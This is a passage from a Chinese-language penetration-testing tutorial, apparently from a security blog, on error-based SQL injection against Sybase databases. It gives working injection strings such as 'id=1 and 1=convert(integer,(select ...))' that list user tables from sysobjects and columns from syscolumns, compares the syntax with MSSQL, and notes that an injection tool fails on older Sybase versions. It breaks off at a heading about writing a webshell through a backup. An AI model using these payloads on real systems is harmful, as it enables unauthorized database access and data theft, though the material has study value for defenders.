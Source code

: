 ![enter image description here](http://drops.javaweb.org/uploads/images/453213f72fc9d49d8f0908b17bbbbbbc41597087.jpg)

PS：虽然Sybase不能用TOP、for xml path，但是支持having、where not in等语法，变化方式依然有多种

与MSSQL不同的一点：

MSSQL是xtype Sybase是type

![enter image description here](http://drops.javaweb.org/uploads/images/8bf35011b5cebffad339eb5744bc6e49c11ecbd1.jpg)

列表(只能用复杂版)：

```
id=1 and 1=convert(integer,(select MIN(ISNULL(CONVERT(NVARCHAR(4000),aaaa.name),CHAR(32))) from (select name from test.dbo.sysobjects where type=‘U’) AS aaaa where CONVERT(NVARCHAR(4000),aaaa.name)>‘ ’))

```

列出第一个表cmd

```
id=1 and 1=convert(integer,(select MIN(ISNULL(CONVERT(NVARCHAR(4000),aaaa.name),CHAR(32))) from (select name from test.dbo.sysobjects where type=‘U’) AS aaaa where CONVERT(NVARCHAR(4000),aaaa.name)>‘cmd’))

```

列出除cmd外的第一个表cmd0

![enter image description here](http://drops.javaweb.org/uploads/images/60a4cf765fab69027f76d4af0b299acb90127bb5.jpg)

列字段：

```
select name from test..syscolumns where id=object_id(‘users’) and colid=1  递增colid

```

即：

```
id=1 and 1=convert(integer,(select name from test..syscolumns where id=object_id('users') and colid=1))

```

![enter image description here](http://drops.javaweb.org/uploads/images/e480ab18ba57089012e2db592dec4a16cb0be12c.jpg)

工具注入：

![enter image description here](http://drops.javaweb.org/uploads/images/22a3d31bf3d4b486782c67db87eaa529ab5189e8.jpg)

穿山甲猜不出库名，抓包发现使用了TOP关键字，看来穿山甲只支持12.5.3以后的sybase

![enter image description here](http://drops.javaweb.org/uploads/images/57a9d8604621097de5c762867824b73fa1052087.jpg)

### 备份写文件（webshell）
